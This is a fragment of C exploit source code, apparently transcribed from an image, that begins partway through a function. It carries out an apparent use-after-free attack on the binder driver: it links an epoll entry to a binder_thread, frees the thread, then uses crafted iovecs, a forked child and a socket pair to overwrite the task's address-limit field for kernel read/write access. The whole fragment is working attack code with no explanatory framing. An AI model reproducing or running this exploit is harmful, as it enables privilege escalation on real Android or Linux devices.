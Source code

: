 ```c
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }
    
    printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);

    ssize_t expectedBytesReceived = iovecStack[IOVEC_WQ_INDEX].iov_len + iovecStack[IOVEC_WQ_INDEX + 1].iov_len + iovecStack[IOVEC_WQ_INDEX + 2].iov_len;

    if(nBytesReceived != expectedBytesReceived){
         printf("\t[-] recvmsg failed . nBytesReceived: 0x%lx , expected: 0x%lx\n",nBytesReceived,expectedBytesReceived);
         exit(EXIT_FAILURE);
    }
    wait(nullptr);


}

```